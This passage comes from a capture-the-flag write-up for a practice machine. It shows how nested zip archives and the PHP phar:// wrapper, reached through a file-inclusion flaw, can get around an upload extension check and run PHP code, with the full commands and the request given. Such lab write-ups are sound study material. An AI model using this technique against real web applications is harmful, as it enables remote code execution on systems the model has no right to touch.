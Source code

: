 and we get a nice shell!

```bash
rektsu@zipping:/var/www/html/shop$
```

Another way of getting to a shell as rektsu that i’ve learned after solving the box is to use the phar PHP wrapper to execute a file out of a zip. Since the application only checks for the extension of the file contained in the main zip we can create a zip containing another zip archive called e.pdf which contains the actual file with PHP code.

```bash
$ echo -n "<?php phpinfo();?>" > "sh.php"
$ zip e.zip sh.php
  adding: sh.php (stored 0%)
$ mv e.zip e.pdf
$ zip pwn.zip e.pdf
  adding: e.pdf (deflated 37%)
```

now after uploading pwn.zip we can use a phar wrapper to execute the PHP payload like so (note the LFI appends `.php` to the included file):

```bash
curl 'http://127.0.0.1:8000/shop/index.php?page=phar://../uploads/abc3364b5e4232c09742daa9099baefb/e.pdf/sh'
```

![Rce through phar php filter using nested zip archives. Image shows php info.](Assets/rce_through_phar_filter_with_nested_zip_upload.png)

As you can see this also works with php8.2.18

Before manual enumeration let’s run linpeas in the background.
